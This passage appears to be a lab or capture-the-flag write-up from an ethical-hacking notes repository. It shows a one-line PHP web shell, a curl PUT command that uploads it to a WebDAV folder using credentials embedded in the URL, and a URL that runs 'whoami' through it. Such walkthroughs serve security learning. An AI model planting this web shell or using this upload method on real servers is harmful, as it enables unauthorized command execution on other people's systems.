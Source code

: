In this case php files are accepted by using a PUT request

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401092323.png)

Loading a *cmd.php* file to inject commands:
<?php
	system($_REQUEST['cmd']);
?>

We can authenticate directly in the url to upload the file:
````
curl -s -X PUT http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/cmd.php -d @cmd.php
````

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401093215.png)
This upload the file as cmd.php and then we can execute the command:

http://10.10.10.67/webdav_test_inception/cmd.php?cmd=whoami

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401093341.png)
